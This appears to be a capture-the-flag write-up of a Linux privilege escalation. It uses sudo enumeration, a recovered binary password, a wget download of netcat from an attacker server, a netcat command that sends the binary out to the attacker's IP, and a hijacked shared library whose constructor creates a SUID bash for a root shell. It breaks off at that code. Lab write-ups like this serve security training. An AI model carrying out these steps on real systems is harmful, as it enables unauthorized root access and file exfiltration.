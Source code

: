Using sudo -l i was able to use a binary called "stock" without as root.

`/usr/bin/stock`

The command file gived me this:

```
/usr/bin/stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped
```

When I executed it , the binary asked me for a password that I don't have. I translated it to my kali machine so I was able to inspec it with ghidra. (I used strings and I wasn't able to guess that the password was St0ckM4nager ).

I used python first 

```
python3 -m http.server
```
I translated netcat to the victim machine , on the victim machine , folder tmp I typed.
```
wget 10.10.10.10:8000/nc

chmod u+x nc
```

In my machine I used this command to recive the file:
```
nc -l -p 1234 > stock
```
On the victim to send the file
```
./nc -w 3 10.10.16.86 1234 < /usr/bin/stock
```


The next step once I have the password, was see more in detail what the binary does when I execute it.

I executed:
```
strace stock
```

I found that in some point the binary called this file `/home/rektsu/.config/libcounter.so` . The same do not exists. I get to the folder `/home/rektsu/.config/` and I did not see it. So I created my own one on the same path.

First I created this file on the folder tmp and I called it libcounter.c  
`/tmp/libcounter.c`

```
# include <stdio.h>
# include <stdlib.h>

static void inject()__attribute__((constructor));

void inject(){
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
